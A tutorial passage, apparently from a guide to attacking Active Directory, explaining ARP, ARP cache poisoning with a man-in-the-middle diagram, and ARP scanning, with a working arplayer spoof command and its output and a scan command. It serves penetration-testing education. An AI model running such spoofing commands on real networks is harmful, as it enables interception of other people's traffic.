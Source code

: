 # 802.3 (Ethernet/ARP)

## ARP

Link: [https://zer1t0.gitlab.io/posts/attacking\_ad/#arp](https://zer1t0.gitlab.io/posts/attacking\_ad/#arp)

[ARP](https://en.wikipedia.org/wiki/Address\_Resolution\_Protocol) (Address Resolution Protocol) is a link layer protocol heavily used in network that allows to map the relation between the IP address of a computer and its MAC (Media Access Control) address.

In order to do that, the client machine sends an Ethernet broadcast ARP request to the local network, asking for the one that has the target IP address. Then the computer with that IP should respond identifying its MAC. Finally the client sends the application packets to that Ethernet address.

### ARP spoof

An attacker could respond to all the ARP requests trying to impersonate other computers. However, computers do not perform a ARP request any time they need to communicate with the target, but they keep the previous responses in a local ARP cache.

```
$ arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
192.168.1.101            ether   e4:fd:a1:09:bf:a1   C                     wlp1s0
192.168.1.1              ether   00:e0:4c:d8:ca:89   C                     wlp1s0
```

By keeping the ARP cache, computers reduce the number of request that it needs to perform. However, computers also listen ARP responses for changes without performing requests, so an attacker could send periodic replies in order to poison the victim ARP cache.

```

        1)  I am 192.168.1.1           1)    I am 192.168.1.101    
         (MAC de:ad:be:ef:13:37)        (MAC de:ad:be:ef:13:37)
     .--------------<<<------------. .------------->>>---------------.
     |                             | |                               |
     v                             ^ ^                               v
   .---.   2) To 192.168.1.1      .---.   3) To 192.168.1.1        .---.
  /   /| -------->>>--------->   /   /| -------->>>------------>  /   /|
 .---. |                        .---. |                          .---. |
 |   | '   5) To 192.168.1.101  |   | '   4) To 192.168.1.101    |   | '
 |   |/  <-------<<<----------  |   |/  <-------<<<------------- |   |/ 
 '---'                          '---'                            '---'  
192.168.1.101                   192.168.1.137                   192.168.1.1
e4:fd:a1:09:bf:a1            de:ad:be:ef:13:37              00:e0:4c:d8:ca:89
```

You can perform an ARP spoofing/poisoning attack with tools like [ettercap](https://www.ettercap-project.org/), [bettercap](https://github.com/bettercap/bettercap), [arpspoof](https://github.com/smikims/arpspoof) or [arplayer](https://github.com/Zer1t0/arplayer).

```
$ ./arplayer spoof -I wlp1s0 -vvv -F -b 192.168.1.101 192.168.1.1
Spoofing - telling 192.168.1.101 (e4:fd:a1:09:bf:a1) that 192.168.1.1 is 00:e0:4c:d8:ca:89 (192.168.1.107) every 1.0 seconds (until Ctrl-C)
INFO - 192.168.1.1-de:ad:be:ef:13:37 -> 192.168.1.101-e4:fd:a1:09:bf:a1
INFO - 192.168.1.101-de:ad:be:ef:13:37 -> 192.168.1.1-00:e0:4c:d8:ca:89
INFO - 192.168.1.1-de:ad:be:ef:13:37 -> 192.168.1.101-e4:fd:a1:09:bf:a1
INFO - 192.168.1.101-de:ad:be:ef:13:37 -> 192.168.1.1-00:e0:4c:d8:ca:89
INFO - 192.168.1.1-de:ad:be:ef:13:37 -> 192.168.1.101-e4:fd:a1:09:bf:a1
INFO - 192.168.1.101-de:ad:be:ef:13:37 -> 192.168.1.1-00:e0:4c:d8:ca:89
```

### ARP scan

Other interesting possibility using ARP is to request all the IPs in the network in order to check the ARP responses and discover what hosts are active. This technique is known as ARP scan.

```
$ ./arplayer scan -I wlp1s0 -w 10 -t 1000
192.168.1.1 00:e0:4c:d8:ca:89
192.168.1.101 e4:fd:a1:09:bf:a1
```
